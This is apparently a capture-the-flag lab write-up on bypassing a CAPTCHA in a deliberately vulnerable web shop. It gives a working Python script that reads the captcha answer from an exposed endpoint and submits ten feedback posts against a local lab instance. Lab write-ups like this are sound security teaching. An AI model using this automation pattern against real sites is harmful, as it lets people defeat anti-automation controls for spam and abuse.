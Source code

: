 ## CAPTCHA Bypass
### Challenge: Submit 10 or more customer feedbacks within 10 seconds.
### Category: Broken Anti Automation

My favorite challenge so far!

Firstly, while using burp to capture HTTP requests > Customer feed back form > submit some feedback

We observe that the following parameters are required `captchaId` which is an incremental id for each "challenge" and a `captcha` for the answer to the challenge.

![captcha1.png](../screens/captcha1.png)

If you check the Developer tools XHR requests, observe that the `/rest/captcha` endpoint is call when the feedback page loads, which provides a new feedback captcha (they even provide the answer too!)

![captcha2.png](../screens/captcha2.png)

We have all the information needed to write our script, using python, we can test out the GET request to this endpoint and able to extract the values we need to form a POST request. 

![captcha3.png](../screens/captcha3.png)

Finally writing the script to loop it through 10 times so that we can complete this challenge.

```python
import requests
import json

for x in range(0,10):

	# GET captcha id and answer
	r = requests.get("http://127.0.0.1:3000/rest/captcha/")
	data = r.json()

	captcha_id = data['captchaId']
	captcha_answer = data['answer']

	# POST form 

	# Create form parameters
	# sample parameters {"captchaId":11,"captcha":"17","comment":"asdasd","rating":5}
	json_obj = {"captchaId":captcha_id,"captcha":captcha_answer,"comment":"sucks!","rating":1}

	headers = {
	'Content-type':'application/json', 
	'Accept':'application/json' }
	result = requests.post("http://127.0.0.1:3000/api/Feedbacks", data=json.dumps(json_obj), headers=headers)
	print(result)
	print(result.status_code)
	#print(result.json())
```

In short, this script does the following things:
1. Gets a captcha unique ID and its answer, these 2 values are required to send in our form.
2. Form a json object with our form values `json_obj`
3. Create a post request adding HTTP data such as headers (defining content type) and converting our object to json.
4. printing the results of the script. Type 2 responses indicating successful.

![captcha4.png](../screens/captcha4.png)

